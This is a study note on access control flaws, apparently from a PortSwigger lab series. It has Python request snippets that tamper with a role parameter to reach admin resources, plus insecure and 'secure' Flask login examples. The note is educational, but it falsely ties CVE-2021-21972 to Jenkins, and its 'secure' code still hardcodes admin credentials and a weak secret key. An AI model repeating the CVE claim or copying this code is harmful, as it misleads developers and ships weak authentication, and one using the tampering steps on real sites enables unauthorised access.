

## Understanding Access Control Vulnerabilities

Access control vulnerabilities are among the most critical issues in web security. They occur when an application fails to properly restrict access to resources based on the user's privileges. One common type of access control vulnerability is when user roles are controlled by request parameters, which can be manipulated by attackers to gain unauthorized access.

### Background Theory

Access control is a fundamental security mechanism that ensures users have appropriate permissions to access resources within an application. In a typical web application, access control is enforced through authentication and authorization mechanisms. Authentication verifies the identity of a user, while authorization determines what actions a user is allowed to perform based on their role.

#### Role-Based Access Control (RBAC)

Role-Based Access Control (RBAC) is a widely used model for access control. In RBAC, users are assigned roles, and roles are associated with permissions. This allows for a more flexible and scalable approach to managing access rights compared to assigning permissions directly to individual users.

### Example Scenario: User Role Controlled by Request Parameter

In the given scenario, the application uses a request parameter to control the user's role. Specifically, the `role` parameter is used to determine the user's privileges. This is a significant security risk because an attacker can manipulate the `role` parameter to gain elevated privileges.

#### Real-World Example: CVE-2021-21972

A real-world example of this vulnerability is CVE-2021-21972, which affected the Jenkins Continuous Integration server. In this case, an attacker could manipulate the `role` parameter to gain administrative privileges, allowing them to execute arbitrary code on the server. This vulnerability highlights the importance of proper input validation and access control mechanisms.

### Detailed Walkthrough

Let's break down the process of exploiting and securing an application where the user role is controlled by a request parameter.

#### Step 1: Access the Login Page

The first step is to access the login page to retrieve the CSRF token. The CSRF token is a unique value generated by the server to prevent Cross-Site Request Forgery (CSRF) attacks.

```python
import requests

# Define the login URL
login_url = "http://example.com/login"

# Perform a GET request to the login page
response = requests.get(login_url)

# Extract the CSRF token from the response
csrf_token = response.cookies['csrf_token']
```

#### Step 2: Log in with the CSRF Token

Once the CSRF token is obtained, it can be used to log in to the application. The `username`, `password`, and `csrf_token` are sent in the POST request to authenticate the user.

```python
# Define the login credentials
username = "admin"
password = "password123"

# Perform a POST request to log in
data = {
    "username": username,
    "password": password,
    "csrf_token": csrf_token
}
response = requests.post(login_url, data=data)
```

#### Step 3: Manipulate the Role Parameter

If the application allows the `role` parameter to be set via a request parameter, an attacker can manipulate this parameter to gain elevated privileges.

```python
# Define the URL for accessing a restricted resource
resource_url = "http://example.com/restricted_resource"

# Manipulate the role parameter to gain admin privileges
params = {
    "role": "admin"
}
response = requests.get(resource_url, params=params)
```

### How to Prevent / Defend

To prevent access control vulnerabilities, several best practices should be followed:

#### Secure Coding Practices

1. **Input Validation**: Validate all input parameters to ensure they meet expected criteria. For example, the `role` parameter should be validated against a predefined list of valid roles.

2. **Use Server-Side Role Assignment**: Assign roles on the server-side rather than relying on client-provided parameters. This ensures that the role cannot be manipulated by an attacker.

3. **Session Management**: Use secure session management techniques to store user roles and other sensitive information. Ensure that session cookies are marked as `HttpOnly` and `Secure`.

#### Secure Configuration

1. **Web Application Firewall (WAF)**: Implement a WAF to filter out malicious requests and protect against common web vulnerabilities.

2. **Content Security Policy (CSP)**: Use CSP to mitigate the risk of XSS attacks by defining a strict policy for loading resources.

#### Detection and Monitoring

1. **Logging and Monitoring**: Implement comprehensive logging and monitoring to detect and respond to suspicious activities. Monitor access patterns and alert on unusual behavior.

2. **Security Scanning**: Regularly scan the application using tools like Burp Suite, OWASP ZAP, or Nessus to identify potential vulnerabilities.

### Complete Example

Let's walk through a complete example of an insecure and secure implementation of role-based access control.

#### Insecure Implementation

```python
from flask import Flask, request, redirect, session

app = Flask(__name__)
app.secret_key = 'supersecretkey'

@app.route('/login', methods=['POST'])
def login():
    username = request.form['username']
    password = request.form['password']
    role = request.form['role']  # Insecure: role is controlled by request parameter
    if username == 'admin' and password == 'password123':
        session['username'] = username
        session['role'] = role
        return redirect('/dashboard')
    else:
        return "Invalid credentials"

@app.route('/dashboard')
def dashboard():
    role = session.get('role')
    if role == 'admin':
        return "Welcome, Admin!"
    else:
        return "Welcome, User!"

if __name__ == '__main__':
    app.run(debug=True)
```

#### Secure Implementation

```python
from flask import Flask, request, redirect, session

app = Flask(__name__)
app.secret_key = 'supersecretkey'

@app.route('/login', methods=['POST'])
def login():
    username = request.form['username']
    password = request.form['password']
    if username == 'admin' and password == 'password123':
        session['username'] = username
        session['role'] = 'admin'  # Secure: role is assigned by the server
        return redirect('/dashboard')
    else:
        return "Invalid credentials"

@app.route('/dashboard')
def dashboard():
    role = session.get('role')
    if role == 'admin':
        return "Welcome, Admin!"
    else:
        return "Welcome, User!"

if __name__ == '__main__':
    app.run(debug=True)
```

### Mermaid Diagrams

#### Access Control Flow



### Practice Labs

For hands-on practice with access control vulnerabilities, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a series of labs covering various web security topics, including access control.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing web security skills.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that is riddled with vulnerabilities for educational purposes.

By thoroughly understanding and implementing these best practices, you can significantly reduce the risk of access control vulnerabilities in your web applications.

---
<!-- nav -->
[[05-Lab Setup User Role Controlled by Request Parameter|Lab Setup User Role Controlled by Request Parameter]] | [[Web Security (PortSwigger)/12-Access Control Vulnerabilities/04-Lab 3 User role controlled by request parameter/00-Overview|Overview]] | [[Web Security (PortSwigger)/12-Access Control Vulnerabilities/04-Lab 3 User role controlled by request parameter/07-Practice Questions & Answers|Practice Questions & Answers]]
